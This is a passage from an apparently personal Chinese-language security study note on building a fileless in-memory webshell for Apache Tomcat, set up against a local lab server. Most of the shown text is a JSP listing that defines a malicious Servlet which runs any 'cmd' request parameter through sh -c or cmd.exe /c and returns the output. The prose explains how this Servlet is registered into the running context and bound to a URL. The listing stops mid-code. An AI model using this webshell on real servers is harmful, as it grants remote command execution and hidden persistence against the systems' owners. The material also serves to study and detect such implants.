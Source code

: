 > [一文看懂内存马 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/274466.html)
>
> [利用“进程注入”实现无文件复活 WebShell - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/172753.html)

---

### 环境配置

[安装Tomcat](../../../../../Language/Java/Java.md#tomcat安装) -> [配置Tomcat](../../../../../Language/Java/Java.md#tomcat配置)

---

### 编写与部署ServletAPI型内存马

在 Tomcat 的 `webapps` 目录下, 常见一个新的子目录, 例如 `java-memshell-tomcat-servletapi`

Tomcat 会自动部署这个应用, 可以通过 `http://localhost:8080/java-memshell-tomcat-servletapi` 访问此应用

![image-20240911143708373](http://cdn.ayusummer233.top/DailyNotes/202409111437463.png)

---

下面的代码先是创建了一个恶意的servlet，然后获取当前的StandardContext，然后将恶意servlet封装成wrapper添加到StandardContext的children当中，最后添加ServletMapping将访问的URL和wrapper进行绑定。

```java
<%@ page contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>
<%@ page import="java.io.IOException" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.io.PrintWriter" %>
<%@ page import="javax.servlet.Servlet" %>
<%@ page import="javax.servlet.ServletConfig" %>
<%@ page import="javax.servlet.ServletRequest" %>
<%@ page import="javax.servlet.ServletResponse" %>
<%@ page import="javax.servlet.ServletException" %>
<%@ page import="org.apache.catalina.Wrapper" %>
<%@ page import="java.lang.reflect.Field" %>

<%
    // 创建恶意Servlet
    Servlet servlet = new Servlet() {
        @Override
        public void init(ServletConfig servletConfig) throws ServletException {

        }
        @Override
        public ServletConfig getServletConfig() {
            return null;
        }
        @Override
        public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws ServletException, IOException {
            String cmd = servletRequest.getParameter("cmd");
            boolean isLinux = true;
            // 下面这行中的 System 语句在 Linux Docker 容器中会报错, 编译都过不了，在Windows上可以正常解析
            String osTyp = System.getProperty("os.name");
            if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                isLinux = false;
            }
            String[] cmds = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
            InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
            Scanner s = new Scanner(in).useDelimiter("\\a");
```